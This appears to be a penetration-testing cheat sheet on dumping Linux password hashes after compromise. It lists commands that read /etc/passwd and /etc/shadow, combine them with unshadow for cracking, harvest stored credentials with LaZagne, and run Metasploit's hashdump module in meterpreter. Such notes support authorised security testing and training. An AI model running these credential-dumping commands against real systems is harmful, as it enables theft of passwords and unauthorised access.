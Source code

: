 # Hashdump

## 01 - Unix Shell

```
$ cat /etc/passwd

$ sudo cat /etc/shadow | grep '\$'

$ unshadow passwd shadow > hash.txt
```

## 02 - LaZagne

`$ ./laZagne all -password <password>`

## 03 - Metasploit

### 3.1 - Post Module

- Note: This MSF module will work either a meterpreter or a regular shell

```
msf > use post/linux/gather/hashdump

msf post(linux/gather/hashdump) > options 

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(linux/gather/hashdump) > set session <session_id>

msf post(linux/gather/hashdump) > run
```

- Run directly in `meterpreter`

`meterpreter > run post/linux/gather/hashdump`

### 3.2 - Meterpreter API commands

`meterpreter > hashdump`

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/05 - Credential Access and Dumping/Cross Platform/Tools/LaZagne|LaZagne]]